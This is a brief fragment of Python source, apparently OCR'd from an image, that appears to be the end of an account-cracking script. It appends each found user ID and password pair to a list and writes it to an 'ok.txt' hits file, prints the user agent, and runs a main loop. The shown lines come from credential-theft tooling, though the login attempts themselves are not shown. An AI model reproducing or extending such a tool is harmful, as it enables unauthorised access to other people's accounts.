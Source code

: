 				self.cp.append("%s|%s"%(uid, pw))
				print('  User Agent : %s'%(ua))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue
 
		self.loop +=1  
try:Main()
except Exception as e:exit(str(e))


